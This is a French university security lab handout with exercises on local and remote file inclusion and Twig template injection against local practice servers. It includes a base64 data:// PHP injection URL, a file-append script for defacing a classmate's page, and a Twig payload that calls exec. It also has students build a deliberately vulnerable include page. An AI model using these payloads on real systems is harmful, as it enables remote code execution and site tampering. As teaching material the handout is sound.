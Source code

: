 # TP - Sécurité LFI, RFI et Template Injection
- **Auteur :** DESBOUYS Maxence, MAGALHAES Thomas, THEUWS Gabriel et VALENTIN Guillaume
- **Année :** 2021 -2022
- **Date de rendu :** 2 février 2022 (1 semaine pour le faire)
- **Adresse mail du compte rendu :** thomas.magalhaes@etu.uca.fr
- **Le rendu :** un document .txt ou .pdf répondant aux questions

# Disclaimer
Tous les éléments que vous verrez dans ce TP ont été "patchés" dans les versions les plus récentes. De plus, vous êtes seul responsable de l’usage que vous pourriez faire de ces techniques sur des sites tiers, elles vous sont présentées ici à des fins éducatives.

# Le tp
### Mise en place :

 - Récupérer le dépôt
 - Vérifiez que vous avez php sur votre machine *(php est déjà présent à l'iut)*
 - Lancer la commande qui suit à la racine de ce projet afin de démarrer un serveur php
   ``` php --php-ini php.ini -S localhost:3054 ```
  - Utilisez votre navigateur préféré et allez sur l’url.
  [http://localhost:3054/](http://localhost:3054/)

### Les astuces
Astuce regarder : Null Byte Injection
   
## LFI
   
### Exercice n°1.1 LFI
Cliquez sur "Exo 1 LFI"

**Votre mission : ~~(si vous l'acceptez)~~**

Trouvez le moyen d'afficher dans la page le contenu du fichier "cible.txt" .
Ce dernier est situé au même niveau dans l'arborescence que la page.
Notez l'url saisie dans votre compte rendu.

---

### Exercice n°1.2 LFI
Cliquez sur "Exo 2 LFI"

**Votre mission :**

Trouvez le moyen d'afficher dans la page le contenu du fichier "cible.txt" .
Ce dernier est situé au même niveau dans l'arborescence que la page. 
Notez l'url saisie dans votre compte rendu.

---

### Exercice n°1.3 LFI
Cliquez sur "Exo 2 LFI"

**Votre mission :**

Trouvez le moyen d'afficher dans la page le contenu du fichier "cibleHaute.secu" .
Ce dernier est situé à un niveau plus haut dans l'arborescence. 
Notez l'url saisie dans votre compte rendu.
Dans le même temps,  trouver un moyen de récupérer tous les utilisateurs de la machine.
Notez l'url saisie dans votre compte rendu ainsi que le résultat.

---

## RFI

### Exercice n°2.1 RFI
Cliquez sur "Exo 1 RFI"

**Votre mission :**

Trouvez le moyen d'afficher le contenu d'un autre site dans votre page.
Notez l'url saisie dans votre compte rendu.

---

### Exercice n°2.2 RFI
Cliquez sur "Exo 2 RFI"

**Votre mission :**

Trouvez le moyen d'afficher le contenu d'un autre site dans votre page.
Notez l'url saisie dans votre compte rendu.

---

### Exercice n°2.3 RFI
Cet exercice ce fait avec un autre binôme/collègue. Si vous n'en n'avez pas ou qu'il n'est pas à cet exercice, nous mettrons en place un serveur accessible par l'intranet.

#### Mise en place pour le serveur :
1. Trouvez l'adresse IPv4 de votre machine (pour l'avoir en mémoire)
2. Créer un fichier index.php qui possède un titre h1 et une inclusion de fichier sans vérification de l’entrée. Vous pouvez faire comme [l'index.php de l'exercice 1](/exo_rfi/index.php).
3. Lancer votre serveur PHP en précisant l'IPv4 de votre machine au lieu de localhost. Ansi, votre serveur est mis à la disposition de tout l'IUT.

#### Protocole à suivre pour le client :
1. Avec votre navigateur préféré, obtenir la page d'accueil du binôme/collègue avec lequel vous travaillez.
2. Puisque vous connaissez sa faille, autant l'exploiter ~~(la faille du serveur)~~ en injectant de l'HTML ou du PHP de votre choix. Si vous n'avez vraiment pas d'idée, prenez ce [index.html](https://github.com/LINCnil/Guide-RGPD-du-developpeur/blob/main/index.html).
```pour obtenir le lien brut, cliquez sur le bouton 'raw'```

---

### Exercice n°2.3 RFI suite
```diff
-Il est maitenant temps de jouer !!!
```

Mais avant des explications qui vous seront utiles dans votre périple.

L'url suivant permet d'afficher le phpinfo() sur serveur ciblé.
```
http://localhost:3054/exo_rfi/?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2B
```
La première partie (```http://localhost:3054/exo_rfi/?file=```) correspond à la partie dite "normale".

La seconde partie (```data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2B```) correspond à la partie saisie par l'utilisateur.

>data://text/plain;base64,

Permet d'envoyer au serveur du text en base 64 (utile pour l'attaque)

>PD9waHAgcGhwaW5mbygpOz8

Correspond ici a ```<?php phpinfo();?>```  en base 64

>%2B

Termine l'url 

Pour trouver la correspondance en base 64 de votre code php
[https://www.base64url.com/](https://www.base64url.com/)

(Il faut retirer les caractères "+","-" et "=" si il y en a à la fin)

```
input: <?php echo "bonjour"; ?>
result: PD9waHAgZWNobyAiYm9uam91ciI7ID8+
result clean: PD9waHAgZWNobyAiYm9uam91ciI7ID8
url final : http://localhost:3054/exo_rfi/?file=data://text/plain;base64,PD9waHAgZWNobyAiYm9uam91ciI7ID8%2B
```

**Votre mission :**

Vous allez devoir rajouter à l'index du serveur d'autre personne vos noms.

Le script php qui suit vous permet d'ajouter en fin de fichier du texte.
Utilisez le pour ajouter vos prénoms dans l'index du serveur ciblé. 
```php
<?php
$file = ''; 
$text = "";
file_put_contents($file, $text, FILE_APPEND | LOCK_EX);
//echo "lancement de l'attaque";
?>
```
Notez l'url saisie dans votre compte rendu ainsi que les étapes pour l'obtenir.

---

### Exercice n°3.1 SSTI

Pour commencer vous devrez cloner le repository git : https://github.com/GoSecure/template-injection-workshop
puis lancer votre machine VDN et créer une passerelle sshfs jusqu'au dossier `template-injection-workshop/12_template_twig_php/`. 
Ensuite vous lancerez un docker dans le fichier `12_template_twig_php` et vous vous y connecterez via le port `8012` de local host (127.0.0.1):
```bash
$ vdn docker-tmp

vdn:...$ sshfs {login}@{ip_machine}:/home/etud/{login}/{path to template-injection-workshop/12_template_twig_php/}
vdn:.../12_template_twig_php$ docker-compose up

vdn:...$ links http://localhost:8012/
 ### ou ###
vdn:...$ links 127.0.0.1:8012/
```

**Votre mission :**

Une fois cela fait votre mission consite à récupérer le flag en utilisant une template injection.

---

### Aide
La commande suivante vous sera utile dans votre recherche du flag: ``{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("echo -E `ls /`")}}``
